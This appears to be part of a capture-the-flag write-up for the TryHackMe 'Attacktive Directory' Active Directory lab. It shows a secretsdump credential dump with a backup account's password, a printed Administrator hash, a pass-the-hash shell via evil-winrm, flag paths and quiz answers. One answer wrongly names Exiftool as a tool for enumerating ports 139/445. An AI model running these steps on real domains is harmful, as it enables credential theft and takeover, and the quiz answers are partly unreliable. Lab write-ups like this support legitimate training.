 </p>

- Backup account has full access over the spookysec.local domain
- We can clone the contents of the domian with this `Generic All` permissions

```bash
# cloning the dc
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ secretsdump.py -just-dc -dc-ip 10.10.209.16 spookysec.local/backup:backup2517860@spookysec.local -outputfile secretsdump.out
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
[..snip..]
```

- Using [Evil-winrm](https://github.com/Hackplayers/evil-winrm) we login to the machine

```bash
# evilwinrm installation
sudo gem install evil-winrm

# logging in

┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ evil-winrm -i 10.10.209.16 -H 0e0363213e37b94221497260b0bcb4fc -u 'Administrator'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
thm-ad\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
AttacktiveDirectory
```

- Flags location
  - C:\Users\svc-admin\Dektop\user.txt.txt
  - C:\Users\backup\Desktop\PrivEsc.txt
  - C:\Users\Administrator\Desktop\root.txt

## Answers

### Welcome to Attacktive Directory

- What tool will allow us to enumerate port 139/445?
`Exiftool`

- What is the NetBIOS-Domain Name of the machine?
`THM-AD`

- What invalid TLD do people commonly use for their Active Directory Domain?
`.local`
